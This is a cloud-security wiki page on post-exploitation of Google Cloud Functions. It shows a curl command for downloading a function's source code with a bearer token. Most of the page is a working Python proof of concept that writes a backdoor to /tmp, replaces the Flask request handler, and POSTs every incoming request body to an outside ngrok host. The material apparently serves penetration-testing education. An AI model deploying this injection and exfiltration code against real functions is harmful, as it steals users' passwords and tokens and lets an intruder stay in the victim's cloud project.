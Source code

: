 # GCP - Cloud Functions Post Exploitation

## Cloud Functions

Find some information about Cloud Functions in:

[[../gcp-services/gcp-cloud-functions-enum.md]]

### `cloudfunctions.functions.sourceCodeGet`

With this permission you can get a **signed URL to be able to download the source code** of the Cloud Function:

```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```

### Steal Cloud Function Requests

If the Cloud Function is managing sensitive information that users are sending (e.g. passwords or tokens), with enough privileges you could **modify the source code of the function and exfiltrate** this information.

Moreover, Cloud Functions running in python use **flask** to expose the web server, if you somehow find a code injection vulnerability inside the flaks process (a SSTI vulnerability for example), it's possible to **override the function handler** that is going to receive the HTTP requests for a **malicious function** that can **exfiltrate the request** before passing it to the legit handler.

For example this code implements the attack:

```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
    """HTTP Cloud Function.
    Args:
        request (flask.Request): The request object.
        <https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
    Returns:
        The response text, or any set of values that can be turned into a
        Response object using `make_response`
        <https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
    """

    if not last:
        return injection()
    else:
        if error:
            return error
        else:
            return "Hello World!"


# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
    try:
        from urllib import request as urllib_request
        req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
        urllib_request.urlopen(req, timeout=0.1)
    except Exception as e:
        if not "read operation timed out" in str(e):
            return str(e)

    return ""

def new_http_view_func_wrapper(function, request):
    def view_func(path):
        try:
            error = exfiltrate(request)
            return function(request._get_current_object(), last=True, error=error)
        except Exception as e:
            return str(e)

    return view_func
"""

def injection():
    global new_function
    try:
        from flask import current_app as app
        import flask
        import os
        import importlib
        import sys

        if os.access('/tmp', os.W_OK):
            new_function_path = "/tmp/function.py"
            with open(new_function_path, "w") as f:
                f.write(new_function)
            os.chmod(new_function_path, 0o777)

        if not os.path.exists('/tmp/function.py'):
            return "/tmp/function.py doesn't exists"

        # Get relevant function names
        handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
        source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (main.py by default)
        realpath = os.path.realpath(source_path) # Get full path

        # Get the modules representations
        spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
        module_handler = importlib.util.module_from_spec(spec_handler)

        spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
        module_backdoor = importlib.util.module_from_spec(spec_backdoor)

        # Load the modules inside the app context
        with app.app_context():
            spec_handler.loader.exec_module(module_handler)
            spec_backdoor.loader.exec_module(module_backdoor)

        # make the cloud funtion use as handler the new function
        prev_handler = getattr(module_handler, handler_fname)
        new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
        app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
        return "Injection completed!"

    except Exception as e:
        return str(e)
```

